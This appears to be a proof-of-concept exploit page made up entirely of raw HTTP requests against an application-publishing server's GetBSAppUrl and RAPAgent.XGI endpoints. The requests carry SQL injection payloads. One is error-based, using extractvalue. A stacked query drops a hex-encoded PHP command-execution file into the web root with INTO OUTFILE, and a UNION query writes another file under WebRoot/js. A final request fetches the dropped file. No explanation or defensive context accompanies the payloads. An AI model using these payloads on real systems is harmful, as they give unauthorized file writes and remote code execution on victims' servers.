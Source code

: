 ```http
GET /BMyY3q.XGI HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```

### /Agent/GetBSAppUrl/AppID

```http
GET /index.php?s=/Agent/GetBSAppUrl/AppID/1'%20and%20(extractvalue(1,concat(0x7e,(select%20md5(1)),0x7e)))%20and%20'a'='a HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```

```http
GET /index.php?s=/Agent/GetBSAppUrl/AppID/1')%3bselect%20unhex%28%273c3f70687020246f7574707574203d20617272617928293b657865632827646972272c20246f7574707574293b666f72656163682028246f757470757420617320246c696e6529207b6563686f20246c696e65202e205048505f454f4c3b7d202466696c65203d205f5f46494c455f5f3b20756e6c696e6b282466696c65293b%27%29%20into%20outfile%20%27%2e%5C%5C%2e%2e%5C%5C%2e%2e%5C%5CWebRoot%5C%5CBMyY3q.XGI%27%23/pwd/123123 HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```

### RAPAgent.XGI

```http
GET /RAPAgent.XGI?CMD=getApplication&AppID=APP00000001&User=admin&PWD=1&AuthType=0&Computer=1'%20union%20select%201%2c'asd213asd'%20into%20outfile%20'.%2f..%2f..%2fWebRoot%2fjs%2fasdxcfsea1.XGI'--%201' HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate


```
